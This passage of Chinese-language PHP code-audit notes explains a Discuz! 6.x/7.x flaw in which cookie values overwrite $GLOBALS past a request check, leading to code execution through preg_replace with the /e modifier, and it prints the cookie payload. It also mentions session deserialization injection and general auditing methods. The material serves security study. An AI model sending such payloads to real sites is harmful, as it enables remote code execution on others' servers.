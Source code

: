 > 在设置和读取session是会导致任意对象注入漏洞,在5.6.13版本之前,php在解析session字符串时会根据 | 来分割字符串将左边的字符串做反序列化操作


## Discuz! 6.x7.x 全局变量防御绕过-命令执行

此漏洞就是利用preg_replace()最终执行命令:

```php
#include/discuzcode.func.php
function discuzcode(... $smileyoff, $bbcodeoff, $htmlon = 0, $allowsmilies = 1, ...)
  ...
  if(!$smileyoff && $allowsmilies && !empty($GLOBALS['_DCACHE']['smilies']) && is_array($GLOBALS['_DCACHE']['smilies'])) {
    $message = preg_replace($GLOBALS['_DCACHE']['smilies']['searcharray'], $GLOBALS['_DCACHE']['smilies']['replacearray'], $message, $maxsmilies);
    }
```

可见需要对`$GLOBALS`全局变量内的值进行覆盖,下面代码是`index.php`引入的`include/common.inc.php`的代码,把 `GET POST COOKIE` 循环出来，然后注册一个变量:

```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
	foreach($$_request as $_key => $_value) {
		$_key{0} != '_' && $$_key = daddslashes($_value."aaa");
	}
}
```

但是DZ在上面的创建变量操作之前,写了防御代码不允许创建GLOBALS 变量，如果设置了REQUEST的GLOBALS，就直接退出:

```php
if (isset($_REQUEST['GLOBALS']) OR isset($_FILES['GLOBALS'])) {
	exit('Request tainting attempted.');
}
```

在 php5.3 以后 request_order 默认成了 GP ,也就是 request 成了 get 和 post，不包含 cookie

所以$_REQUEST中不包含$_COOKIE,即可以绕过上面的防御代码直接覆盖$GLOBLES中的值

最后通过cookie提交payload:`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`实际上php执行:

```php
$message = preg_replace(/.*/eui, phpinfo(),$maxsmilies);
```



## 通用的代码审计思路

### 逆向回溯变量

从危险函数的传入参数向上检查,回溯变量,检查变量是否经过过滤安全函数,定向挖掘某一类漏洞,对通读代码比较少,没有代码审计经验的本人最合适高效

### 正向跟踪变量

可以先了解程序的主要功能点,利用爬虫找到那些文件从外部接受参数,然后跟踪这些参数,在跟踪参数的过程中可以检查是否经过过滤函数,以及是否存在逻辑上的漏洞,说起来多么容易,haha


